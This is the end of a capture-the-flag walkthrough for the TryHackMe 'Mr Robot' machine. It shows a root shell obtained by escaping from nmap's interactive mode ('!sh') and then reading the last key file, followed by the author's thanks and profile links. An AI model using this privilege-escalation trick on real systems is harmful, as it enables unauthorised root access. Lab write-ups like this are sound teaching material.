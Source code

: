 ```bash
robot@linux:~$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
~# whoami
root
~# cd /root
~# ls
firstboot_done  key-3-of-3.txt
~# cat key-3-of-3.txt
```
\
So, in the end I just want to say thank certain people whose resources have guided me along the way - [John Hammond](https://twitter.com/_johnhammond), [Heath Adams](https://twitter.com/thecybermentor), [IPPSEC](https://twitter.com/ippsec) and [Joseph Perry](https://www.linkedin.com/in/jrpiv/). It is just a start with miles to go.\
Keep hacking till we meet again!!

Stay Tuned On\
[![alt text](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Mr_Robot_CTF/images/Github.png)](https://github.com/pratty010/Boxes)   [![alt text](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Mr_Robot_CTF/images/LinkedIn.png)](https://www.linkedin.com/in/pratyush-prakhar/)
